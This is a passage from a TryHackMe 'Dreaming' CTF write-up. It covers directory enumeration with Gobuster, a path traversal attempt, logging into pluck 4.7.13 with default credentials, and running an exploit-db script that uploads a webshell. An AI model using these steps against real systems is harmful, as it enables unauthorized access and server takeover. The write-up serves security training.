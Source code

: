 The `/app` directory had directory browsing active and showed a folder called `pluck-4.7.13`. This folder provided another website. The URL was particularly interesting because of the `file` parameter, so I tried a path traversal attack which gave me the following error message:

![Path traversal attempt](/assets/img/tryhackme/Dreaming/thm_dreaming_2.jpg)

Another Gobuster scan inside the `pluck-4.7.13` directory, didn't reveal anything useful.
```bash
$ gobuster dir --url http://10.10.145.239/app/pluck-4.7.13/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.145.239/app/pluck-4.7.13/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /images               (Status: 301) [Size: 332] [--> http://10.10.145.239/app/pluck-4.7.13/images/]
  /docs                 (Status: 301) [Size: 330] [--> http://10.10.145.239/app/pluck-4.7.13/docs/]
  /files                (Status: 301) [Size: 331] [--> http://10.10.145.239/app/pluck-4.7.13/files/]
  /data                 (Status: 301) [Size: 330] [--> http://10.10.145.239/app/pluck-4.7.13/data/]
  /robots.txt           (Status: 200) [Size: 47]
```

I performed research on the version number of the content management system and found an entry in the <a href="https://www.exploit-db.com/exploits/49909">exploit-db</a>. The exploit needed the admin password. Since the instance did not appear personalized, I found the default credentials online. 

![pluck login](/assets/img/tryhackme/Dreaming/thm_dreaming_2.jpg)

With the found credentials, I could execute the exploit:
```bash
$ python3 exploit.py 10.10.145.239 80 [removed] /app/pluck-4.7.13/

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.145.239:80/app/pluck-4.7.13//files/shell.phar
```
